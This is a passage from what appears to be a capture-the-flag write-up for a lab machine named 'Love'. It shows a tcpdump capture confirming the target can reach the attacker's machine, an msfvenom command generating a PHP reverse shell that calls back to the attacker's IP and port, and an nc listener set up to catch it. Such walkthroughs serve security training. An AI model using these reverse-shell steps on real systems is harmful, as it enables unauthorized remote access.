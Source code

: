 ![test.php](assets/admin3.png)

Success!  We can see the remote machine ping our box. 

{% highlight bash %}
$ sudo tcpdump -i tun0 icmp       
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:01:38.971850 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
16:01:38.971866 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 1, length 40
16:01:39.976917 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 2, length 40
16:01:39.976937 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 2, length 40
16:01:40.992082 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 3, length 40
16:01:40.992094 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 3, length 40
16:01:42.009716 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 4, length 40
16:01:42.009751 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 4, length 40
{% endhighlight %}

We use msfvenom to create a php shell.

{% highlight bash %}

$ msfvenom -p php/reverse_php LHOST=10.10.14.5 LPORT=9595 -f raw >shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3007 bytes

{% endhighlight %}

We set up nc listening on port 9595

{% highlight bash %}

$ nc -lvnp 9595
listening on [any] 9595 ...

{% endhighlight %}
